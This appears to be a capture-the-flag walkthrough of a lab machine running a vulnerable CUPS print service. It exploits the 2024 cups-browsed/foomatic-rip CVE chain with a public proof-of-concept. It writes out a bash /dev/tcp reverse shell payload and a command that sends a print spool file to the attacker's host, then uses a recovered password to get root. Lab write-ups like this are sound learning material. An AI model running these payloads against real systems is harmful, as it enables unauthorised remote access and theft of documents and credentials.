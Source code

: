 ![logo](./assets/logo.png)

# Recon

Once that i already verify that the machine is up, ill check what open ports this machine has

```
nmap -sC -sV -Pn -p- -T4 10.10.11.40 -oN CupsNmap.txt
```

This command `nmap` is a port scanner and the flags are used to investigate footprints of the service that exists in that machine and the last one is to output the result into a file so we can check it whenever we need it

![nmap](./assets/nmap.png)

and then i can start investigate the ports, i will start with 631 as i see it has a website

![cups](./assets/cups.png)

investigating the cups version i notice this has been a huge topic in the last few days, i did wanted to investigate this PoC as this is marked as 9.9 CVE

> CVE-2024-47176 | cups-browsed <= 2.0.1 binds on UDP INADDR_ANY:631 trusting any packet from any source to trigger a Get-Printer-Attributes IPP request to an attacker controlled URL.

> CVE-2024-47076 | libcupsfilters <= 2.1b1 cfGetPrinterAttributes5 does not validate or sanitize the IPP attributes returned from an IPP server, providing attacker controlled data to the rest of the CUPS system.

> CVE-2024-47175 | libppd <= 2.1b1 ppdCreatePPDFromIPP2 does not validate or sanitize the IPP attributes when writing them to a temporary PPD file, allowing the injection of attacker controlled data in the resulting PPD.

> CVE-2024-47177 | cups-filters <= 2.0.1 foomatic-rip allows arbitrary command execution via the FoomaticRIPCommandLine PPD parameter.


i got the information of the vulnerability from this [post](https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/) which is the researcher who found it

## exploit vulnerability

basically, if the target machine has a printer, you can replace it or create a new (fake) one and send an arbitrary command execution. all this done being unauthenticated.

or something like that, i am missing some steps in that explanation.

in order to exploit, we can copy the poc python script from [here](https://github.com/IppSec/evil-cups) and run it

```python3 evilcups.py 10.10.14.15 10.10.11.40 'nohup bash -c "bash -i >& /dev/tcp/10.10.14.15/9001 0>&1" &' ```

![expl1](./assets/exp1.png)

after that we can go to the cups page and "print" a test from our fake printer

set up a listener in the specified port and stabilize the shell

![nc](./assets/nc.png)

and we have a shell, now i can start looking for the user flag 

![user](./assets/user.png)

running `whoami` it let us know that we are `lp` user 
still doing recon on the cups gui we find that i didnt make the first job, it was done by the other existing printer and i can try to check the contents of the job

![spool](./assets/spool.png)

we see that the spool files are in that directory 

what are spool files tho? temporary files used by operating systems and applications to manage the flow data between different components, in this context, this files can contain the content of documents waiting to be printed and instructions for the printer (like page sizes, job settings, document names, etc)

![spool1](./assets/spool1.png)

reading this, it doesnt matter how the job is called in the gui that we see, its always stored like says in the documentation, in this case `d00001-901`

![spool2](./assets/spool2.png)

aand the file is there but we cant read it very well, i will send it to my machine to investigate it and turn it into a readable file

```
cat d00001-001 > /dev/tcp/10.10.14.15/9001
```

![spool3](./assets/spool3.png)

after convert it, i can read the file

![pdf](./assets/pdf.png)

since it has what it seems to be a password i can try to use it

![root](./assets/root.png)

and we got root flag :) 